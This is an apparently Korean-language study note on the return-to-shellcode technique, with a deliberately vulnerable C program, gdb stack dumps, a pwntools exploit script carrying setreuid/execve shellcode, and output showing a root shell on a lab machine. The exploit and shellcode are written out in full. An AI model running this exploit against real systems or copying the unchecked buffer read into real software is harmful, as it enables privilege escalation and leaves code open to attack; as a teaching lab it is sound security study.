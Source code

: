 # **Return to shellcode**

Return address 영역에 Shellcode가 저장된 주소로 변조해, Shellcode 호출하는 기법이다.

### **CALL**
1. Return address를 Stack에 저장하고, 피연산자 주소로 이동.

### **RET**
1. EBP 레지스터가 가리키는 Stack 영역의 값을 RIP 레지스터에 저장
1. JMP 명령을 통해 RIP에 저장된 영역으로 이동

```
; CALL
push return_address
jmp

; RET
pop eip
jmp eip
``` 

## **Proof of Concept**  

```c
// Vuln Code
// gcc -z execstack -fno-stack-protector -o test test.c
#include <stdio.h>
#include <unistd.h>

void vuln(){
    char buf[50];
    printf("buf[50] address : %p\n",buf);
    read(0, buf, 100);
}

void main(){
    vuln();
}
```

* "A"62 + "B"4 입력 시 Return address 조작이 가능하다.

```
gdb-peda$ x/24wx $ebp
0xbfe98a78:	0x41414141	0x42424242	0xb7f233dc	0xbfe98aa0
```

* 변조된 메모리 구조.

```
gdb-peda$ x/24wx $ebp
0xbfa06f08:	0x41414141	0x42424242	0xb7eda30a	0xbfa06f30
0xbfa06f18:	0x00000000	0xb7d40637	0xb7eda000	0xb7eda000
```

* ASLR 적용되어 있어 Stack 주소 랜덤하지만 지역변수 buf의 주소가 출력되므로 buf에 Shellcode 삽입하고 Return address에 buf 주소 삽입하여 Shellcode 실행할 수 있다.

## **Exploit Code**
```python
# Exploit Code
from pwn import *

p = process('./test')
recv = p.recvline()
buf = int(recv.split(' ')[3].split('\n')[0],16)
print('buf: '+hex(buf))

p.sendline('\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xcd\x80'+'A'*31+ p32(buf))
p.interactive()
```

## **Exploit**
```shell
bs@bs-virtual-machine:~/vulns/RTS$ python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './test': pid 16624
buf: 0xbfe9be8e
[*] Switching to interactive mode
1󿾱ٱəxb0xa4̀jx0bXQh//shh/binx89㊑̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAx8exbe
$                                                                             id
uid=0(root) gid=1000(bs) groups=1000(bs),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

**Refereces**  
<https://www.lazenca.net/display/TEC/02.Return+to+Shellcode>

